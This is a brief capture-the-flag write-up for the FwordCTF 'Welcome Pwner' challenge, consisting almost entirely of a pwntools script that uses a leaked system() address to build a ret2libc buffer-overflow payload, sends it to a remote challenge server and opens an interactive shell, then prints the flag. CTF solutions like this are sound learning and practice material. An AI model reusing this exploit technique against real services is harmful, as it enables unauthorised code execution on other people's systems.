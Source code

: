 ## FwordCTF: Welcome Pwner
##### *tl;dr: nothing, just an exploit script for now, details later*
```python

#: Fword: Welcome Pwner
from pwn import *

#: 
libc = ELF('libc6_2.30-0ubuntu2_i386.so')
#p = process('./molotov')
p = remote('54.210.217.206', 1240)
system_addr = int(p.recvuntil('\n'), 16)
print(p.recvline())

#:
offset = 'A' * 32
print(hex(system_addr))
libc_base = system_addr - libc.symbols['system']

exploit = ''
exploit += offset
exploit += p32(system_addr)
exploit += p32(0xdeadbeef)
exploit += p32(libc_base + libc.search('/bin/sh').next())
p.sendline(exploit)
p.interactive()

#: FwordCTF{good_j0b_pwn3r}
```
